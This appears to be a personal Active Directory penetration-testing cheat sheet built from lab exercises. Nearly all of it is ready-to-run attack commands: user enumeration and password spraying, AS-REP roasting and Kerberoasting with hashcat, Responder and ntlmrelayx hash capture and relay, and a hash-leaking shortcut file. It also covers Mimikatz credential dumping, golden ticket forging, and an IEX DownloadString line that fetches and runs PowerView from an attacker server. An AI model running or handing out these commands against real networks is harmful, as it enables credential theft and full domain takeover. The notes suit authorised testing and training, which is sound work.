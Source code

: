 Kerbrute
Only do usernames as to not lockout users
Located in my downloads
./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.103.225 users.txt

For password spray - kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
Username grabbing
enum4linux -U DCIP | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

Rpcclient - rpcclient -U ""-N 172.16.5.5 (only change IP)

crackmapexec smb 172.16.5.5 --users  (only change IP)(this is null session
If you have creds - sudo crackmapexec smb 172.16.7.3 -u AB920 -p weasal --users

ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL"-s sub "(&(objectclass=user))"|grep samAccountName: |cut-f2 -d" "

./windapsearch.py --dc-ip 172.16.5.5 -u ""-U  (only change IP)


Can now spray passwords with kerbrute - kerbrute passwordspray -d domain --dc IP validusers.txt Welcome1
For windows, import PowerView.ps1 and run Get-NetUser | select cn

Query Ticket auth with no password
take valid usernames from kerbrute and place into new user file
sudo python3 /home/kali/impacket/examples/GetNPUsers.py -dc-ip 10.10.103.225 spookysec.local/ -usersfile users.txt -format john -outputfile hashes
cat hashes - look for any usernames with hashes here to crack

To crack this with hashcat, you need to add a 23 to the hash between rep and name - so e.g $krb5asrep$23$asdas -  https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat
hashcat mode -m 18200

LLMNR Poisoning
fallback with share that is unknown, device reaches out with broadcast to see if any device knows the share, malicious machine asks for hash to direct user

Responder is used to capture the hashes (type locate responder to find the path) - python3 responder.py -I eth0 -rdwv
Run tool first thing in morning on a pen test and right after lunch

Next you'll want to crack the hashes - Hashcat runs better on normal PC and not VM due to using GPU. Copy whole hash, add to text file.
hashcat -m 5600 file.txt rockyou.txt --force ------ -m 5600 stands for AD hash NetNTLMv2

From Windows
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y


SMB Relay
Instead of cracking hashes from responder, can relay hashes to another machine. SMB signing has to be disabled on the target and relayed creds must be admin on machine.
to work have to go to responder.conf and turn off SMB and HTTP
Run Responder.py and also now configure ntlmrelayx.py (locate ntlmrelay) python3 ntlmrelayx.py -tf targets.txt -smb2support (add -i for interactive shell)

Can gain shell access with pw - run psexec (metasploit module) - need domain, user and pass, may need to try the module several times
Could also use - sudo python3 smbexec.py domain/username:'password'@IP
Or psexec.py domain/username:password@IP

Pass Back Attack
This is an LDAP attack (anything that uses LDAP to connect to AD such as printers)
on LDAP server address within the settings configuration if you change the IP address of the LDAP server to your machine and setup a listerner (responder or netcat) the password will be sent over in cleartext
Find webserver using LDAP connection and see if you can change the settings (default PW's on printers)
Force Hashes
If you already have a user account and can write to a share that has alot of popularity, you can create a file that uses a fake icon file linking back to your IP running responder
name the file "@something.url" and include contents
[InternetShortcut] URL=https://securify.nl IconIndex=0 IconFile=\\\leak\leak.ico
run responder and anyone who visits share will send hash

MITM6
github.com/got-it/mitm6
mitm6 -I eth0 -d domain.local
Now setup relay attack with ntlmrelayx - ntlmrelayx.py -6 -t ldaps://domainip -wh fakewpad.domain.local -l lootme


GPP Attacks
Sometimes stored in sysvol, cpassword is encrypted, can be de-crypted. Check with Metasploit - smb_enum_gpp.
Download if accessible via SMB by authing to smb - using mget command - mget * to download all files
To decrypt cpassword - use tool call gpp-decrypt
https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

Further strats
Look for web portals that may have default creds, anything on there that shows AD creds?
Check GPO's or hardcoded creds within XML files etc
Look on printers

Post exploitation (already have creds)
Enumerating password policies with a valid account
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol

Enumerating password policieis with NULL SMB sessions
rpcclient -U ""-N 172.16.5.5


Domain Enumeration with Powershell
. .\PowerView.ps1 (enter)
Get-NetDomain (enter)
Get-DomainPolicy
Get-NetUser (sometimes passwords are placed in Description) -- Get-NetUser | select description
Pass the password
crackmapexec smb IP/CIDR -u user -d domain -p password
This will loop through the IPs specified to see what devices the user can authenticate against.

Then use smbclient to look into shares
smbclient -L 172.16.7.50 -U AB920 -W inlanefreight.local
sudo smbmap -H 172.16.7.3 -u AB920 -p weasal -d domain -r 'Department Shares'
Pass the Hash
Crackmapexec IP -u username -H hash --local-auth

Find valid Domain Admins with lower account
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
Secrets Dump
Any machine that allows login via SMB perform a secrets dump on the machine to dump out the local hashes should the account be a administrator
secretsdump.py domain/username:password@ip
Kerboeroasting
Goal here is to get a TGS (Service Ticket) to decrypt servers account hash
python3 /home/kali/impacket/examples/GetUsersSPN.py domain/username:password -dc-ip IP -request
(doesnt always need password
Hashcat -m 13100 textfile.txt wordlist.txt

Kerbroasting from windows
Run Powerview (download fromn machine that can access the internet - IEX (New-Object System.Net.Webclient).DownloadString(' http://10.10.14.160:8000/PowerView.ps1')
Or download to my localmachine and do a wget across Wget http://server:port/address -outfile name.ps1
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
Now target account - Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

PrintNightmare
Use POC online - rpcdump.py

Token Impersonation
meterpreter - impersonate_token (use on machine a DA has a session)

Credential Dumping Mimikatz (use on machines where DA has logged into)
Mimikatz.exe
Run - privilage::debug
Run - sekurlsa::logonpasswords

Run - lsadump::lsa /patch (shows hashes etc)

can try - ntds.dit

golden ticket
Run mimikatz.exe
run - privilage::debug
run - lsadump::lsa /inject /name:krbtgt
copy SID of domain to notepad (shown next to Domain e.g. S-1-5-21-), copy NTLM hash and paste to notepad
run - kerberos::golden /User:Administrator /domain: /sid: /krbtgt:addhashhere /id:500 /ptt
Run - misc::cmd
run command

From <https://github.com/TobyDavenn/ActiveDirectory/blob/main/activedirectory.md> 


![image](https://user-images.githubusercontent.com/35967437/200788095-c9c95791-7229-472a-af91-4f677ec7ec08.png)

